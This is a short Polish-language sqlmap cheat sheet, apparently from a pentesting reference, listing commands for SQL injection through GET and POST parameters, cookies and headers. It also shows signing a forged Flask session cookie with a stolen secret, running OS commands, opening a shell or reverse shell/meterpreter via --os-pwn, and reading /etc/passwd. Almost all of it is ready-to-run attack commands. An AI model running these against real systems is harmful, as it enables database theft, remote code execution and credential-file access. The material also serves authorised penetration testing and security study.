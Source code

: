 ## Miejsce wstrzyknięcia

### Z przechwycenia Burp/ZAP

Przechwyć żądanie i utwórz plik req.txt.
```bash
sqlmap -r req.txt --current-user
```
### Wstrzykiwanie żądania GET
```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
### Wstrzykiwanie Żądania POST
```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```
### Iniekcje w nagłówkach i innych metodach HTTP
```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```
### Wskaźnik ciągu, gdy wstrzyknięcie jest udane
```bash
--string="string_showed_when_TRUE"
```
### Eval

**Sqlmap** umożliwia użycie `-e` lub `--eval`, aby przetworzyć każdy ładunek przed jego wysłaniem za pomocą jednego wiersza kodu w Pythonie. Ułatwia to i przyspiesza przetwarzanie ładunku w niestandardowy sposób przed jego wysłaniem. W następującym przykładzie **sesja cookie flask** **jest podpisywana przez flask znanym sekretem przed jej wysłaniem**:
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
### Powłoka
```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
### Przeczytaj plik
```bash
--file-read=/etc/passwd
```